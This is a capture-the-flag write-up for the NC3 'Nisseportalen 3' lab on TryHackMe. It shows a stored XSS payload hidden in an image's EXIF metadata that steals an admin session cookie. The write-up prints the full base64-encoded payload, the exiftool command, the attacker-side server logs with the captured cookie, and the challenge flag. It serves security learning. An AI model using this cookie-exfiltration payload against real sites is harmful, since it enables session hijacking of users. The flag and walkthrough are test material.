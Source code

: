 +++
title = 'Nisseportalen 3'
categories = ['Boot2Root']
date = 2024-12-15T13:35:38+01:00
scrollToTop = true
+++

## Challenge Name:

Nisseportalen 3

## Category:

Boot2Root

## Challenge Description:

Nissernes største ønske er en portal til deling af alle deres AI-genererede billeder aka Nisseportalen. Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen.

Praktikantnissen har fået til opgave at redde Nisseportalen og få ryddet op i Nissedevs rod. Kan du hjælpe med at redde Nisseportalen og finde alle de sårbarheder, der må være, så projektet endelig kan blive gjort færdigt?

Men vær beredt, det er ikke til at sige hvad Nissedev har haft gang i...

[https://tryhackme.com/jr/nisseportalen2o24](https://tryhackme.com/jr/nisseportalen2o24)

## Approach

We pick up where we left off in [Nisseportalen 2](/nc3/boot2root/nisseportalen-2) and now have a foothold on the webapp.
We now have authenticated access to the webapp and therefore revisit all the previously identified pages!

### Enumeration

On /portal/list.php we can now see the previously identified images, in the billeder.txt file, being rendered.

![List of images](images/list.png)

Besides that we only have the /portal/upload.php page left to explore.

This is the part I spent the longest time on in the challenge, but ultimately I revisited the description, in which this phrase stood out to me:
"Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen."
This indicted to me that there might be some "previous projects" to check out"!
I started out scanning for subdomains, without any luck, but then started searching for previous NC3 CTFs and discovered that the previous year's CTF had these challenges!
https://blog.danniranderis.dk/2021/12/16/danish-christmas-ctf-2021-by-nc3-police-intermediary-dangerzone-1-4/
https://nissen96.github.io/CTF-writeups/writeups/2022/NC3-CTF-2022/Nissezonen.html

After a thorough readthrough of the writeups I understood that with the help of XSS, we might be able to steal a session cookie and log in as an admin!

### Exploitation

In order to achieve this, we need to Add a malicious payload to an image EXIF metadata and then upload the image to the webapp at /portal/upload.php!

In order to edit image metadata, we can use exiftool to add the payload to the image EXIF metadata

The payload we want to add to the image is:

```bash
<img src='http://My-IP/hacked.jpg' oNlOaD="eval(atob('base64 encodeded payload here'))">
```

With the base64 encoded malicious payload:

```bash
var cookies = document.cookie ? encodeURIComponent(document.cookie) : 'nothing';
var my_endpoint = 'http://MY-IP:1337/cookie/' + cookies + '.jpg';
var my_img = '<img src=' + my_endpoint + '>';
document.write(my_img);
```

The transformation of the payload to base64 and the final exiftool command to add the payload to the image:

```bash
echo "var cookies = document.cookie ? encodeURIComponent(document.cookie) : 'nothing';var my_endpoint = 'http://10.10.51.96:1337/cookie/' + cookies + '.jpg';var my_img = '<img src=' + my_endpoint + '>';document.write(my_img);" | base64

exiftool -comment="<img src='http://10.10.51.96:1337/hacked.jpg' oNlOaD=\"eval(atob('dmFyIGNvb2tpZXMgPSBkb2N1bWVudC5jb29raWUgPyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKSA6ICdub3RoaW5nJzt2YXIgbXlfZW5kcG9pbnQgPSAnaHR0cDovLzEwLjEwLjUxLjk2OjEzMzcvY29va2llLycgKyBjb29raWVzICsgJy5qcGcnO3ZhciBteV9pbWcgPSAnPGltZyBzcmM9JyArIG15X2VuZHBvaW50ICsgJz4nO2RvY3VtZW50LndyaXRlKG15X2ltZyk7Cg=='))\">" hacked.jpg
```

We upload the image to the webapp and refresh the /portal/list.php page in order to execute the evaluation of our evil payload!

![Hacked](images/payload.png)

```bash
python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...

10.10.20.207 - - [18/Dec/2024 21:58:02] "GET /hacked.jpg HTTP/1.1" 200 -
10.10.20.207 - - [18/Dec/2024 21:56:01] "GET /cookie/SESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777%3B%20PHPSESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777.jpg HTTP/1.1" 404

echo "SESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777%3B%20PHPSESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777" | python3 -c "import sys, urllib.parse; print(urllib.parse.unquote(sys.stdin.read().strip()))"

SESSID=643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777; PHPSESSID=643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777

```

And voilà, we have stolen the session cookie and can now log in as an admin and visit /portal/admin.php!

![Admin page](images/admin.png)

### Getting third flag

It seems a bit of final investigation is needed in order to find the third flag, but after simply testing a few commands in the input box, we get the flag and we can submit the third flag and move on to [Nisseportalen 4](/nc3/boot2root/nisseportalen-4)!

![Admin inputbox](images/inputbox.png)

![Flag](images/flag.png)

## Flag

```text
NC3{Flag3:N1553D3v_5yn32 DU_F0r7j3N3R_37_fl49}
```

## Reflections and Learnings

### Remember that CTFs may have some history!

Revisiting the challenge description proved invaluable. The reference to past projects like “Dangerzone” and “Nissezonen” hinted at a potential vulnerability to explore, which ultimately led to the discovery of an XSS attack vector by reading through old writeups from previous years NC3 CTFs!

### The Power of Cross-Site Scripting (XSS)

This challenge highlighted how XSS, often considered a low-priority vulnerability, can escalate into serious exploitation when combined with creative payloads. Injecting malicious payloads into image metadata was an innovative application of XSS, which proves why it deserves to be an OWASP top 10.

### EXIF Metadata as an Attack Vector

Using tools like exiftool to inject payloads into image metadata demonstrated how unconventional entry points, such as file metadata, can be exploited to compromise a system.

### Session Hijacking through Cookies

The successful theft of an admin session cookie using an XSS payload emphasized the critical need for secure cookie handling, including using the HttpOnly flag to prevent client-side scripts from accessing cookies!
